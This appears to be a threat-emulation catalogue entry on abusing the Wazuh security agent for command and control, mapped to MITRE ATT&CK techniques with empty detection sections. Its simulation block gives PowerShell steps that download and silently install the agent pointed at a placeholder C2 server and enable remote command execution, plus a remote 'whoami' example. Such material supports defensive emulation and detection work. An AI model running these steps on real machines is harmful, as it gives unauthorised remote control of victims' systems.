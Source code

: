 ```yaml
---
title: Wazuh
tags:
  - Command and Control
  - Execution
references:
- https://securelist.com/miner-campaign-misuses-open-source-siem-agent/114022/
- https://documentation.wazuh.com/current/quickstart.html
files: []
---
```


Wazuh is a security platform that provides unified XDR and SIEM protection for endpoints and cloud workloads. The solution is composed of a single universal agent and three central components: the Wazuh server, the Wazuh indexer, and the Wazuh dashboard. 

# C2 Connection
## Description

Wazuh can be downloaded (or transfered) and installed on a system, configured for communication with a specified C2 server. Once Wazuh has remote command execution enabled and the service is started, the agent is ready for command and control operations.

## Simulation
```
powershell.exe Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.5.3-1.msi -OutFile ${env:tmp}\wazuh-agent-4.5.3-1.msi; 
msiexec.exe /i ${env:tmp}\wazuh-agent-4.5.3-1.msi /q WAZUH_MANAGER='C2 Server' WAZUH_REGISTRATION_SERVER='C2 Server' WAZUH_AGENT_GROUP='1'; 
Start-Sleep -Seconds 20;
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'wazuh_command.remote_commands=1'; 
Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'logcollector.remote_commands=1'; 
NET START WazuhSvc
```

## MITRE ATT&CK

T1105: Ingress Tool Transfer
T1219: Remote Access Software

## Detections



# Remote Command Execution
## Description

Once the agent is connected to the "C2" server, the agent allows an adversary to execute commands

## Simulation
```
```/var/ossec/bin/agent-control -R 'whoami'```
```

## MITRE ATT&CK

T1059: Command and Scripting Interpreter
T1219: Remote Access Software

## Detections

